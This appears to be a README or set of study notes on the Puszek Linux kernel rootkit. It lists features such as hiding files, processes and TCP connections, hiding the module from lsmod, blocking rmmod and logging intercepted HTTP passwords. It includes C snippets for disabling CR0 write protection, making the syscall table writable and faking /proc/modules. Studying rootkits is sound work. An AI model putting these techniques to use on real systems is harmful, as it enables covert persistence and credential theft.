 # Puszek Rootkit

## Table of contents 
- [Puszek Rootkit](#puszek-rootkit)
  - [Table of contents](#table-of-contents)
  - [Features](#features)
  - [Digging into the features](#digging-into-the-features)
    - [Syscall Table hooking](#syscall-table-hooking)
    - [Hide module](#hide-module)
    - [Unable to rmmod](#unable-to-rmmod)
    - [Hiding Files and Processes](#hiding-files-and-processes)
    - [Inode modification trivia](#inode-modification-trivia)

## Features

    - Hide files that ends on configured suffix (".rootkit" by default).
    - Hide processes that cmdline contains defined text (COMMAND_CONTAINS - ".//./" by default).
    -  Intercept GET and POST HTTP requests and log to `/etc/http_requests.rootkit`.
        - When password is found in HTTP request it's additionally logged to `/etc/passwords.rootkit`
    - Rootkit module is invisible in lsmod output, file /proc/modules, and directory /sys/module/.
    - It isn't possible to unload rootkit by rmmod command.
    - Netstat and similar tools won't see TCP connections of hidden processes.

## Digging into the features
  

### Syscall Table hooking
        - Get address of syscall table
            - Syscall table address no longer available in the kallsysms 
                - Search memory for the pointer table! (maybe another chokepoint!)
                - https://bbs.archlinux.org/viewtopic.php?id=139406
        - Write to CR0 - Replace the write protect bit in CR0, hook functions
            - ```c
#if SYSCALL_MODIFY_METHOD == CR0
    original_cr0 = read_cr0();
    write_cr0(original_cr0 & ~0x00010000);```
        - Make the table writeable -  using the address
            - ```c
#if SYSCALL_MODIFY_METHOD == PAGE_RW
    make_rw((long unsigned int)sys_call_table_);
#endif

... hook here...

#if SYSCALL_MODIFY_METHOD == PAGE_RW
    make_ro((long unsigned int)sys_call_table_);
#endif

int make_rw(unsigned long address)
{
    unsigned int level;
    pte_t *pte = lookup_address(address, &level);
    pte->pte |= _PAGE_RW;
    return 0;
}
 
//set a page read only
int make_ro(unsigned long address)
{ 
    unsigned int level;
    pte_t *pte = lookup_address(address, &level);
    pte->pte = pte->pte & ~_PAGE_RW;
    return 0;
}```

### Hide module
        - `/proc/modules` - 
            - Read from the old one, replace rootkit and return. Done by hooking open syscall [fake file at `/etc/modules.rootkits`]
            - ```c
if (strcmp(filename, "/proc/modules") == 0)
{
	   
    new_path = kzalloc(strlen("/etc/modules") + strlen(FILE_SUFFIX) + 1,
    	    GFP_KERNEL);
	// open new path
  	// read the realmodule file
    // replace the rootkit after reading
    // write fake to the old file
}```
        - `/proc/net/tcp` - 
            - Same as above with the temp file being - `/etc/net.rootkits`
            - Parse each line, check if inode belongs to the process if yes then remove
        - These make it hard for other commands written on top of `/proc/modules` hard to detect the module. 
### Unable to rmmod
        - It seems that allowing the userspace process not to open the rootkit blocks it from removing the module
            - ```c
#if UNABLE_TO_UNLOAD
    }
    else if (strncmp(filename, rootkit_path, rootkit_path_len) == 0)
    {
    	ret = -ENOENT;
#endif```

### Hiding Files and Processes
        - Using modifications to inodes
        - Hiding files - 
            - hooking `new_sys_getdents` and `new_sys_getdents64` - checks if the file with prefix is present in the dirent. if found the entry is deleted.
    - **Storing  the HTTP requests**
        - syscall - `send_to` syscall hooked and the tcp data is checked for presence of headers.

### Inode modification trivia
    - It maintains a list of hidden inodes for the processes
    - The list is then checked during each iteration
    - Inodes of processes are collected by opening `/proc/<pid>/fd` directory and then reading the links to get the inodes. (it ignores fd's 0-2 maybe because they are the standard ones)

